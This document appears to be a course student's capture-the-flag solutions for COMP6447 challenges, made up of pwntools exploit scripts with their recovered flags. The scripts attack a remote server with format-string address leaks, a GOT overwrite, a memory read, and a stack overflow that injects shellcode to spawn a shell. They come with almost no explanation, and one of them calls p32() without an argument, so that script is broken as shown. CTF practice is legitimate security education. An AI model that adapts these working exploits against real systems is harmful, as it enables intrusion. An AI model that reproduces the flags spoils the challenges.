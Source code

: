 ​##ezpz2
COMP6447{This_was_slightly_less_ezpz}

from pwn import *
context.log_level = 'debug'
# p = process('./ezpz2')
p = remote("plzpwn.me","9449")
q = p.recv()
p.sendline('n')
q = p.recvuntil("")
q = p.recv()
print "should enter answer now"
fmt = "AAAA.%1$x"
p.sendline(fmt)
q = p.recv()
p.sendline('A')
q = p.recvuntil(".")
ad = p.recvline()[:-1]
winAd = int(ad,16)-10260
gotAd = winAd+9605
log.info("winAd: " + hex(winAd))
log.info("gotAd: " + hex(gotAd))
p.recv()
p.sendline('n')
p.recv()
def pay(q):
    p.sendline(q)
    log.info(repr(q))
form = FmtStr(execute_fmt=pay, offset=8, padlen=3)
form.write(gotAd, winAd)
form.execute_writes()
p.interactive()

## ezpz
COMP6447{This_was_not_ezpz}
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
# p = process('./ezpz')
p = remote('plzpwn.me','9447')
# gdb.attach(p, gdbscript='break *ask_question+63')
p.recv()
p.sendline('n')
p.recv()
win = 0x8048714
# p.sendline(cyclic(80))
p.sendline(shellcraft.i386.linux.sh() + 'A'*(72-len(shellcraft.i386.linux.sh())) +p32())
q = p.recv()
print q
p.sendline('a')
q = p.recv()
p.interactive()
print q

## format101

COMP6447{1_kn0w_h0w_f0rm4t_str1ng5_w0rk}

from pwn import *
# p = process('./format101')
p = remote('plzpwn.me',"9448")
p.recv()
p.sendline('\x60\xa0\x04\x08'+'%7$s')
print(p.recv())
